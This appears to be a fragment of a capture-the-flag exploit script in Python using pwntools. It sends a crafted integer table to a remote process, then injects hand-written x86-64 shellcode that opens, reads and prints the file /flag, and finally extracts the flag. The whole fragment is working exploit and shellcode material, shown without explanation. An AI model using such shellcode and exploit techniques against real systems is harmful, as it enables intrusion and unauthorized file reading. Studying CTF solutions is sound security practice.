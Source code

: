 ```python

    table = {0xffe: 0xcfbad200 // 4, 0xfff: 0x381598 // 4,
            0: 0x6ddbcc00 // 4, 1: 0x1070044 // 4}
    for i in track(range(0x1000), 'sending ints'):
        sh.sendline(str(table.get(i, 0)).encode())

    sh.sendlineafter(b'input', b'2')
    sleep(0.5)
    code = '''
    /* openat(0, "/flag", 0, 0) */
    mov rbx, 0x67616c662f
    push rbx
    push rsp
    pop rsi
    xor edi, edi
    xor r10, r10
    xor edx, edx
    push 0x101
    pop rax
    syscall

    /* read(rax, 0x601000, 0x50) */
    push rax
    pop rdi
    xor eax, eax
    mov rsi, 0x601000
    mov rdx, 0x50
    syscall

    /* writev(1, &[0x601000, rax], 1) */
    push 1
    pop rdi
    push 0x1    /* iov size */
    pop rdx
    push rax
    push rsi
    mov rsi, rsp
    push 0x14
    pop rax
    syscall
    '''
    sh.sendline(b'0'*7 + asm(code))

    sh.recvuntil(b'flag{')
    flag = b'flag{' + sh.recvuntil(b'}')
    success(f'Flag is: {flag.decode()}')
```

